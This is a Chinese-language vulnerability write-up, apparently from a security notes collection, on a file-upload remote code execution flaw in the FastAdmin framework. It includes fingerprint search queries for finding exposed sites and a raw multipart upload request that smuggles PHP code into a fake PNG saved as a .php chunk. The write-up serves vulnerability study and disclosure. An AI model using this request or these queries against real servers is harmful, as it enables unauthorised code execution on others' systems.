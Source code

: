 # FastAdmin 远程代码执行漏洞

# FastAdmin 远程代码执行漏洞

## 漏洞描述

FastAdmin是一款基于ThinkPHP和Bootstrap的极速后台开发框架。FastAdmin框架存在有条件RCE漏洞，当攻击者具有一定用户权限的前提下，可以实现任意文件上传，导致RCE。

参考链接：

- https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
- https://nosec.org/home/detail/4713.html

## 网络测绘

```
app="FASTADMIN-框架" || body="\"uploadurl\":\"ajax\/upload\"" || body="api.fastadmin.net" || body="\"fastadmin\":{\"usercenter\":true" || body="content=\"FastAdmin\"" || body="cdnurl\":\"\",\"version"|| icon_hash="-1036943727"
```

## 漏洞复现

前期准备：

1. 该接口至少需要普通用户权限，可以先在前台注册一个用户然后登录。
2. 需要修改默认配置才能使用分片上传功能。设置 application/extra/upload.php 下的chunking 项为 true。
3. 可使用 application/index/controller/Ajax 下的 upload() 方法作为入口点。根据 tp5 的路由，访问该入口点的 url 为 index.php?s=index/ajax/upload。

上传头像处post：

```
//传入xx.php
POST /index/ajax/upload HTTP/1.1
Host: target

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="file"; filename="Xnip2021-04-02_11-05-27.png"
Content-Type: application/octet-stream

PNG
...
<?php phpinfo();?>
------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkid"

xx.php

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkindex"

0
------WebKitFormBoundarybw5c2a2bqlLLOMEU
```

![image-20221206160222513](images/image-20221206160222513.png)

